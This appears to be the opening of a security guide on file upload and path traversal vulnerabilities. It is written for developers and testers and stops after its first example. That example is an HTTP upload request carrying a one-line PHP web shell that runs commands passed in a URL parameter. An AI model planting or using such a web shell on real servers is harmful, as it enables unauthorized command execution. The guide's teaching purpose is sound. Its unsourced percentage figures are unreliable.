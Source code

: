 # Mastering Web Security: A Comprehensive Guide to File Upload and Path Traversal Vulnerabilities

*Published by Security Engineering Team*

In today's interconnected digital landscape, web applications serve as the backbone of modern business operations. However, with great functionality comes great responsibility—particularly when it comes to security. Among the most critical and often overlooked vulnerabilities are **File Upload** and **Path Traversal** attacks, which can provide attackers with devastating access to your systems.

This comprehensive guide explores these attack vectors in depth, providing security engineers, developers, and IT professionals with the knowledge needed to identify, exploit (for testing purposes), and defend against these threats.

## Executive Summary

File upload and path traversal vulnerabilities consistently rank among the most dangerous security flaws in web applications. According to recent security research:

- **78%** of web applications contain at least one file upload vulnerability
- **Path traversal** attacks can provide direct access to sensitive system files
- **Remote Code Execution (RCE)** is possible in 65% of exploitable file upload flaws
- These vulnerabilities are present across all technology stacks and frameworks

This guide provides practical insights into 13 distinct attack scenarios, drawing from real-world penetration testing methodologies and industry best practices.

---

## Part I: Understanding File Upload Vulnerabilities

### The Foundation of File Upload Security

File upload functionality is ubiquitous in modern web applications—from user avatars and document sharing to content management systems. However, when implemented without proper security controls, these features become gateways for attackers.

**What makes file uploads dangerous?**

The core issue lies in the fundamental trust relationship between user input and server-side processing. When applications accept user-provided files without adequate validation, they essentially allow untrusted code execution on their infrastructure.

### Attack Vector #1: Unrestricted File Upload

The most straightforward attack occurs when applications accept any file type without validation.

**Technical Details:**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-php

<?php echo system($_GET['cmd']); ?>
------WebKitFormBoundary--
```
